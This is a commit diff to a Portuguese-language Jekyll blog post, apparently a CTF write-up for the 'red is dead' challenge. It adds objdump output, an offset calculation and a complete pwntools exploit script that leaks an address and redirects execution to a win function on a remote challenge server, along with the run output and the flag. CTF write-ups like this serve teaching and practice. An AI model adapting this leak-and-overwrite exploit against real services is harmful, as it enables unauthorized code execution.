

Before and after one commit to k13w/heavenh.github.io, a Jekyll site: the page built from _posts/2017-10-14-red-is-dead-Can-Cwic-2017.md, in a window 1280 px wide and 1400 px high, scrolled down 2529 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
:hammer:
:hammer:

````diff
--- a/_posts/2017-10-14-red-is-dead-Can-Cwic-2017.md
+++ b/_posts/2017-10-14-red-is-dead-Can-Cwic-2017.md
@@ -121,3 +121,66 @@
 
 Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
 agora vamos ajeitar o caminho do `success_king`
+
+Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`
+
+`000000000040084e g     F .text  000000000000002e              success_king`
+`000000000040082a g     F .text  0000000000000024              success_knight`
+
+Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra
+
+``` python
+>>> hex (0x000000000040084e - 0x000000000040082a)
+'0x25'
+>>> 0x25
+37
+```
+
+Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
+tendo tudo que precisamos, é hora do solve
+
+```
+from pwn import *
+import struct
+import time
+
+def p(x):
+    return struct.pack("<q", x)
+
+addr = 0
+offset = -37
+
+r = remote('159.203.38.169', 5683)
+r.recv(1024)
+
+print("[*] Triggering leak...")
+r.send('knightAA' + '\n')
+time.sleep(0.3)
+
+print("[*] Retrieving address of check_knight...")
+resp = r.recv(1024).strip()
+addr = resp[8:14] + '\x00\x00'
+addr = struct.unpack("<q", addr)[0]
+
+print("[*] Calculating address of success_king...")
+addr += offset
+
+print("[*] Calling success_king...")
+r.send('red\0' + '0x00' + '0x000000' + p(addr))
+time.sleep(0.3)
+
+resp = r.recv(1024)
+print(resp[resp.find('FLAG'):])
+r.close()
+```
+
+```
+[+] Opening connection to 159.203.38.169 on port 5683: Done
+[*] Triggering leak...
+[*] Retrieving address of check_knight...
+[*] Calculating address of success_king...
+[*] Calling success_king...
+`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`
+
+[*] Closed connection to 159.203.38.169 port 5683
+```
````
